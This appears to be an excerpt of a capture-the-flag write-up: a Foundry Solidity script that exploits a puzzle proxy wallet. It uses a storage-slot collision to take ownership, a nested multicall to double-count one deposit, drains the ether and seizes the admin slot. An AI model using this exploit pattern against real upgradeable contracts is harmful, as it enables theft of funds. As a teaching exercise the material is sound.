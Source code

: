 ```solidity
}
```

`PuzzleWallet.s.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {IPuzzleProxy, IPuzzleWallet} from "../src/Interfaces.sol";

contract PuzzleWalletScript is Script {
    address constant proxyAddress = 0xXXXXXXXXX;
    IPuzzleProxy proxy = IPuzzleProxy(proxyAddress);
    IPuzzleWallet wallet = IPuzzleWallet(proxyAddress);
    uint256 proxyEthBalance = proxyAddress.balance; // 0.001 ether

    function run() external {
        vm.startBroadcast();
        // Step 1: modify pendingAdmin to our EOA (slot 0).
        proxy.proposeNewAdmin(msg.sender);

        // Step 2: add ourselves to the whitelist.
        // It is a delegatecall, so msg.sender is preserved as our EOA, and owner is preserved as EOA (slot 0).
        wallet.addToWhitelist(msg.sender);

        // Step 3: make nested multicall
        // balances[msg.sender] will be increased by 0.001 TWICE, but only 0.001 ether is sent.
        bytes[] memory innerCalls = new bytes[](1);
        innerCalls[0] = abi.encodeWithSelector(wallet.deposit.selector);
        bytes[] memory outerCalls = new bytes[](2);
        outerCalls[0] = abi.encodeWithSelector(wallet.deposit.selector);
        outerCalls[1] = abi.encodeWithSelector(wallet.multicall.selector, innerCalls);
        wallet.multicall{value: proxyEthBalance}(outerCalls);

        // Step 4: drain all ether from the contract.
        wallet.execute(msg.sender, proxyEthBalance * 2, "");

        // Step 5: set maxBalance to our EOA address (slot 1), which is also the admin slot for the proxy.
        wallet.setMaxBalance(uint256(uint160(msg.sender)));
        console.log("Attack completed. New admin:", proxy.admin());
        vm.stopBroadcast();
    }
}
```


